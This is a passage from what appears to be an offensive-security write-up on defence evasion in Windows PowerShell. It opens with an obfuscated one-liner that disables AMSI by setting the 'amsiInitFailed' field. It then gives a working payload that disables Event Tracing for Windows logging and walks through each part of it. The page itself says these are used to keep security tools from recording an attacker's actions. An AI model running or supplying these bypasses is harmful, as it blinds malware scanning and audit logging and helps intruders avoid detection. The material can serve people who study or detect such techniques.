 ```powershell
PS:\> $w = 'System.Manag';$r = '65 6d 65 6e 74 2e 41 75 74 6f 6d 61 74 69 6f 6e 2e'.Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$s=$s+$_};$c = 'Amsi'+'Utils';$assembly = [Ref].Assembly.GetType(('{0}{1}{2}' -f $w,$s,$c));$n = $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAA==')));$b = 'siIn';$k = (([regex]::Matches("deliaFti",'.','RightToLeft') | foreach {$_.value}) -join '');$field = $assembly.GetField(('{0}{1}{2}' -f $n,$b,$k),'NonPublic,Static');$field.SetValue($null,$true)
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/d45a6949-de22-458f-b69e-2ced47026585)


# <span style="color:lightblue">Patching Event Tracing for Windows</span>

Event Tracing for Windows (ETW) is a powerful logging and tracing mechanism in the Windows operating system that allows developers, administrators, and analysts to monitor and diagnose system events in real time. It collects and analyses diagnostic and performance data from applications and services running on Windows. ETW records events generated by the operating system and applications, including information on processes, threads, disk I/O, network activity, and more.

By disabling or manipulating ETW, attackers can prevent security tools from logging their actions or tracking their movement within a system.

> Original Payload to patch ETW
```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

## <span style="color:lightgreen">Understanding the command</span>

This command is used to modify the behavior of the Event Tracing for Windows(ETW) in PowerShell. Specifically, it sets a private, static field within the *System.Management.Automation.Tracing.PSEtwLogProvider* class called `"m_enabled"` to true, `0` indicates that the initialization of ETW is disabled.

Here is a breakdown of the command and what each part does:

1. `[Reflection.Assembly]::LoadWithPartialName('System.Core')` loads the `System.Core` assembly into memory.
2. `.GetType('System.Diagnostics.Eventing.EventProvider')` retrieves the `EventProvider` type from the loaded assembly.
3. `.GetField('m_enabled','NonPublic,Instance')` retrieves the `m_enabled` field of the **EventProvider** type, which determines whether event tracing is enabled for that provider.
4. `.SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)` sets the `m_enabled` field of the PowerShell ETW provider to `0` (disabled). This prevents PowerShell from logging events to the Windows Event Log or other ETW consumers.

## <span style="color:lightgreen">Patching ETW</span>
